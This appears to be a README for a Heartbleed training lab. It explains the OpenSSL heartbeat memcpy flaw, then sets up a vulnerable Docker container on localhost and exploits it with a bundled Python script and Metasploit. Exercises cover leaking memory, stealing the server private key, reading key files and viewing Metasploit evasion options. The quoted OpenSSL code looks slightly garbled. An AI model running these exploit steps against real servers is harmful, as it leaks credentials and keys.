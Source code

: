 # Heartbleed Example

## Additional info

**Format of the Heartbeat request/response packet**

```c
struct {
    HeartbeatMessageType type;  // 1 byte: request or the response
    uint16 payload_length;      // 2 byte: the length of the payload
    opaque payload[HeartbeatMessage.payload_length];
    opaque padding[padding_length];
} HeartbeatMessage;
```

The first field (1 byte) of the packet is the type information, and the second field (2 bytes) is the payload length, followed by the actual payload and paddings. The size of the payload should be the same as the value in the payload length field, but in the attack scenario, payload length can be set to a different value. The following code snippet shows how the server copies the data from the request packet to the response packet.

**Process the Heartbeat request packet and generate the response packet**

```c
/* Allocate memory for the response, size is 1 byte
 * message type, plus 2 bytes payload length, plus
 * payload, plus padding
*/

unsigned int payload;
unsigned int padding = 16; /* Use minimum padding */

// Read from type field first
hbtype = *p++; /* After this instruction, the pointer
                * p will point to the payload_length field */

// Read from the payload_length field from the request packet
n2s(p, payload); /* Function n2s(p, payload) reads 16 bits
                  * from pointer p and store the value
                  * in the INT variable "payload". */

pl = p; // pl points to the beginning of the payload content

if (hbtype == TLS1_HB_REQUEST)
{
    unsigned char *buffer, *bp;
    int r;

    /* Allocate memory for the response, size is 1 byte
     * message type, plus 2 bytes payload length, plus
     * payload, plus padding
     */

    buffer = OPENSSL_malloc(1 + 2 + payload + padding);
    bp = buffer;

    // Enter response type, length and copy payload *bp++ = TLS1_HB_RESPONSE;
    s2n(payload, bp);

    // copy payload
    memcpy(bp, pl, payload);   /* pl is the pointer which
                                * points to the beginning
                                * of the payload content */
    bp += payload;

    // Random padding
    RAND_pseudo_bytes(bp, padding);

    // this function will copy the 3+payload+padding bytes
    // from the buffer and put them into the heartbeat response
    // packet to send back to the request client side.
    OPENSSL_free(buffer);
    r = ssl3_write_bytes(s, TLS1_RT_HEARTBEAT, buffer, 3 + payload + padding);
}
```

**The vulnerability lies here**

```c
    // copy payload
    memcpy(bp, pl, payload);
```

There is no check to determine if `pl` is valid or not. Therefore, a memory breach can occur.

## Requirements and instalation

* Docker
* Metasploit
* Python 2
```shell
sudo apt-get update
sudo apt-get install -y python2-dev docker.io metasploit-framework curl
```
* Python 2 packages
```shell
curl https://bootstrap.pypa.io/pip/2.7/get-pip.py --output /tmp/get-pip.py
sudo python2 /tmp/get-pip.py
pip install --upgrade setuptools
pip install gmpy pyasn1
```
## Docker Setup

```shell
docker pull docker.io/andrewmichaelsmith/docker-heartbleed
```
## Clone Repository

```shell
git clone https://github.com/okrutnik420/heartbleed.git &&
cd heartbleed &&
chmod 755 *
```

## Run the container

On a terminal window, run the command:

```shell
sudo docker run -it -p 127.0.0.1:443:443 andrewmichaelsmith/docker-heartbleed bash
```

This command will execute bash in conatiner and map host adress 127.0.0.1:443 to local conatiner adress on port 443

Type exit to exit container


## Run the server
inside contrainer run"
```shell
apache2ctl -D FOREGROUND
```
You can access server via https://127.0.0.1
(unfortunetly this is default website for old version of apache2)

## Stimulate the server

Before exploiting, you must stimulate the server with potentially sensitive data
that can be harvested later by the exploit. The `stimulate_server.py` script
does that, sending random credentials to the server via HTTP POST requests. The
following is its usage and options:

```shell
Usage: stimulate_server.py [-a server_address] [-t sleep]
```
## Excercise 1: Get to know server

* Using nmap check if server is vulnerable
```shell
sudo nmap -p 443 --script ssl-heartbleed 127.0.0.1
```

* If you wish to run another instance of bash inside container do:
```shell
sudo docker ps -a 
sudo docker exec -it <id> /bin/bash
```
* View certificate
```hint
Inspect Dockerfile to check how server was set up
```
* Check openssl version

## Excercise 2 Exploit using script

This repo includes heartbleed.py script (in python2)

```shell
chmod 755 heartbleed.py
./heartbleed.py -h
```

* using script try to extract some sensitive data
* set verbose option analize how script executes
* try to steal server private key and certificate

To populate server memory with keys run:
```shell
watch 'cat /etc/apache2/ssl/apache.crt ; cat /etc/apache2/ssl/apache.key'

```

## Excersice 3 Exploit using metaspoit

#### Start the Metasploit console
```shell
sudo msfconsole
```

#### Search Heartbleed module by using built in search feature in Metasploit framework
```shell
search heartbleed
```

#### Load the heartbleed by module
```shell
use auxiliary/scanner/ssl/openssl_heartbleed
```

#### After loading the auxiliary module, extract the info page to reveal the options to set the target
```shell
show info
```

#### This is a list of all auxiliary actions that the scanner/ssl/openssl_heartbleed module can do:
```shell
show actions
```

#### Here is a complete list of advanced options supported by the scanner/ssl/openssl_heartbleed auxiliary module:
```shell
show advanced
```

#### To view full list of possible evasion options supported by the scanner/ssl/openssl_heartbleed auxiliary module in order to evade defenses:
```shell
show evasion
```

* Explore Options

